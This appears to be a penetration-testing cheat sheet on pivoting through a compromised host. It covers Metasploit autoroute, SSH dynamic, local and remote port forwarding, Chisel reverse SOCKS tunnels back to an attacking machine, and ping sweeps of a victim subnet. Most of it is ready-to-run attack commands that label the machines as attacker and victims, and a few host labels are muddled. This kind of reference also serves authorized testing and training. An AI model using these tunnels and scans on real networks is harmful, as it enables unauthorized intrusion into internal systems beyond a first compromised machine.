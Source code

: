 # Routing
## In msfconsole
Autoroute (outside meterpreter session)
- Location: "/usr/share/metasploit-framework/modules/post/multi/manage/autoroute.rb"
```
run autoroute -s 10.10.10.0/20 3
```
route add (Inside meterpreter session)
- Location: "/usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/net/route.rb"
```
route add 10.10.10.0 255.255.255.0 1,2,3(session id)
```


# Proxy
## SSH Proxy
- Execute following command on the compromised machine
- Proxy service will be on port 4444 of the attacking machine(ssh executing machine)
-  Use either with proxychain sock4 or other alternatives
```
ssh -D 4444 compromised_machine@192.168.1.110
```

## Chisel Proxy
- Execute following command on the compromised machine
```
chisel server --sock5 --reverse
```
- Chisel server will be on port 8080 of the attacking machine(chisel command executing machine)
- Connect back from compromised machine via Fingerprint generated from server command
```
chisel client --fingerprint "       " 192.168.1.100:8080 R:socks
```
Booommm!!!


## Metasploit 

# SSH Port Forwarding 

## Discovering Alive Hosts from Compormised Machine
```
metasploit windows/gather/arp_scanner
```
### Window
powershell
```
1..254 | ForEach-Object { $ip = "192.168.1.$_"; if (Test-Connection -ComputerName $ip -Count 1 -Quiet) { Write-Output "$ip is reachable" } else { Write-Output "$ip is unreachable" } }
```

### Linux
```
for i in {1..254}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done;
```


# Important!!
- Please take note 192.168.1.100 as attacking machine(my machine) , 192.168.1.110 as compromised machine(victim 1), 192.168.2.100 as internal machine(victim 2)
## Direct 
- You want to access a web server running on 192.168.2.100 on port 80 through compromised machine 192.168.1.100
- Take note that !!! 8080 "-L 8080:" !!! is ssh command executing machine localhost port 
```
ssh -L 8080:192.168.2.100:80 compromised_machine@192.168.1.100
```

## Reverse

- You want to make a localhost port 80 of your "ssh command executing machine(attacking machine)192.168.1.100" accessible from 192.168.1.110(compromised machine) on port 8080.

```
ssh -R 8080:localhost:80 compromised_machine@192.168.1.100
```

# Chisel Port Forwarding
- First host a chisel server to listen on attacking machine
```
chisel server --sock5 --reverse
```
- Make magic in compromised machine(victim 1)
- Making the victim2's port 80 accessible from the attacking machine's port 8000 (Same as SSH -L) port forwarding
```
chisel client --fingerprint "fingerprint_generated_from_attacking_machine" 192.168.1.100:8080(ip and port of server) R:8000:192.168.2.100:80
```

